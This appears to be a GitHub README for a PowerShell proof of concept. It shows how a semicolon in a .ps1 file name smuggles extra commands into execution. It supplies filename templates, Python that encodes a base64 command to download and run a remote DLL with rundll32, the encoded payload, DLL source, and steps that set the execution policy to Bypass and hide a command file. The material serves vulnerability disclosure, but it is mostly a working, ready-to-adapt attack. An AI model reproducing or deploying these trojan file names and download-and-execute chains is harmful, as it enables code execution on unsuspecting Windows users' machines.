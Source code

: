 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted this off and improved it a bit: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or hidden text-file

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 PAYLOAD];.ps1 <br>  

OR just call commands straight away <br>  

"Testing;saps (gc -) PoC.ps1"

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution: create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode
b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code:
#include <windows.h>
//gcc -shared -o mydll.dll mydll.c -m32
//hyp3rlinx 
void evilo(void){
MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
evilo();
return 0;
}

python -m http.server 80

Double click the trojan PS1 file.

Text-file named dash "-" Code Execution.
Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file.
"Test;saps (gc -) PoC.ps1"
Create hidden: attrib +s +h "-"
Double click or drag and drop.



Video PoC:

